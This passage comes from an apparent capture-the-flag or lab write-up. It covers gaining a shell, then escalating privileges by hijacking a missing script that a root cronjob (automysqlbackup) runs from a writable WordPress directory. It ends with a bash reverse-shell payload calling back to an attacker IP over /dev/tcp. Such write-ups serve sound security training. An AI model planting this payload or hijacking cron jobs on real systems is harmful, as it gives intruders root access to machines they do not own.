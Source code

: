 <figure><img src="../../../.gitbook/assets/image (3975).png" alt=""><figcaption></figcaption></figure>

> I reset the box here, so the IP addresses are different.

From here, we can easily get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (3489).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob -> Binary Hijack

I ran `pspy64` to enumerate the processes that were being run, and it found this:

```
2023/07/17 13:03:02 CMD: UID=0    PID=7830   | /bin/bash /usr/sbin/automysqlbackup 
2023/07/17 13:03:02 CMD: UID=0    PID=7829   | /bin/bash /usr/sbin/automysqlbackup 
2023/07/17 13:03:02 CMD: UID=0    PID=7831   | mail -s MySQL Backup Log for maria - 2023-07-17_13h03m root
```

I tried running the `automysqlbackup`, but it resulted in loads of errors. Within the errors, I saw this:

```
$ /usr/sbin/automysqlbackup
<TRUNCATED>
/usr/sbin/automysqlbackup: line 656: /var/www/html/wordpress/backup_scripts/backup-post: No such file or directory
<TRUNCATED>
```

Seems that `backup-post` is a binary run that is not present within a directory that we have write access to. We can easily create a reverse shell like this:

```bash
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.162/80 0>&1
```
